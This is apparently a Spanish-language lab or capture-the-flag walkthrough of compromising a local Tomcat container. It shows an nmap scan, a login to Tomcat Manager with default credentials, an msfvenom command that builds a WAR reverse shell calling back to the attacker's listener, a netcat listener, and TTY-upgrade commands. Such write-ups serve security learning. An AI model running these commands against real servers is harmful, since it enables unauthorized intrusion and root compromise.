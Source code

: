 Fecha: 07/09/2024

Empiezo usando nmap: 

```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240907204742.png)

Me descargo el archivo:
![](imágenes/Pasted%20image%2020240907204853.png)

El contenido parece indicar que hay un usuario llamado tomcat: 
![](imágenes/Pasted%20image%2020240907204916.png)

Usaré ese usuario en manager app, probando las contraseñas que encontré en [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat):

![](imágenes/Pasted%20image%2020240907210520.png)

tomcat:s3cr3t es la que funciona. 

Veo que puedo subir archivos ".war", y en la misma página veo que puedo usarlo para subir una reverse shell:
![](imágenes/Pasted%20image%2020240907210938.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=9001 -f war -o revshell.war
```

Hago `nc -lnvp 9001`, a /revshell/ y ya tengo una reverse shell:

![](imágenes/Pasted%20image%2020240907211518.png)

Realmente ya estaría porque soy root, pero podría tratar la tty para que fuera más cómodo: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

![](imágenes/Pasted%20image%2020240907211628.png)
